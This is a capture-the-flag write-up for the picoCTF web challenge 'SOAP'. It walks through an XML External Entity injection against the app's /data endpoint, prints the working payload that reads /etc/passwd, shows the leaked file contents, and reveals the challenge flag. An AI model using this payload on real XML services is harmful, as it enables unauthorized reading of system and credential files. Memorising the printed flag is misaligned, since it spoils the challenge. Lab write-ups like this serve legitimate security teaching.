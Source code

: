 # SOAP

[toc]

## Description
Author: Geoffrey Njogu
Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Solution
After launching instance and go to the Web Portal, we saw that there are 3 company's information at the website.
Then, we can to click on any of the `Details` button, to get the details of them.

After clicked, we can saw that there is a requesting to the website with this api : `/data`
And the payload using to request is a XML request payload : `<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`
The data will be displayed on the page after requested successfully.

It should be a vulnerable for us to use XML External Entity (XXE) Injection to get the contents in `/etc/passwd`
So we can try to inject it using the payload :
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>

```

Then, we got the contents of the passwd file and the flag on the page !!
```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```

## Flag
```
picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```
